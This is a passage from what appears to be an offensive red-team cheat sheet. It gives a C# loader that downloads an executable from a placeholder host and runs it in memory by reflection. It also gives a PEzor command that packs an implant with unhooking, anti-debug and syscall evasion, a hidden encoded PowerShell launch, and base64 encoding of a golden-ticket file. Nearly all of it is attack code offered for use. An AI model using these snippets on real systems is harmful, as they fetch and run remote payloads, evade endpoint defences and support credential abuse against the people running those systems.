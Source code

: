 ## 10) Domain Dominance

## 11) NET Assembly Reflection - Web inject

```cs
using System;
using System.Net;
using System.Reflection;

namespace Nappa
{
    class Program
    {
        static void ReflectFromWeb(string url)
        {
            WebClient client = new WebClient();
            byte[] programBytes = client.DownloadData(url);
            Assembly dotnetProgram = Assembly.Load(programBytes);
            object[] parameters = new String[] { null };
            dotnetProgram.EntryPoint.Invoke(null, parameters);
        }
        static void Main(string[] args)
        {
            ReflectFromWeb("http://CHANGEME/HelloReflectionWorld.exe");
        }
    }
}
```

## 12) Misc & Encoding

##### PeZOR Packing and Encoding 

```cpp
PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=10 /root/Desktop/Grunt_Nim.exe -z 2
```

##### Cat to base64 

```cpp
cat file.ps1 | iconv -t utf-16le | base64 -w 0
powershell -Sta -Nop -Window Hidden -EncodedCommand <encodedCommand>
```

##### Powershell to base64

```cpp
[System.Convert]::ToBase64String([System.IO.File]::ReadAllBytes("C:\Users\IEUser\Desktop\golden.kirbi"))

$filename = "C:\Users\&&&&&\Desktop\exclusion\showPidx64.bin"
[Convert]::ToBase64String([IO.File]::ReadAllBytes($filename)) | clip
``` 
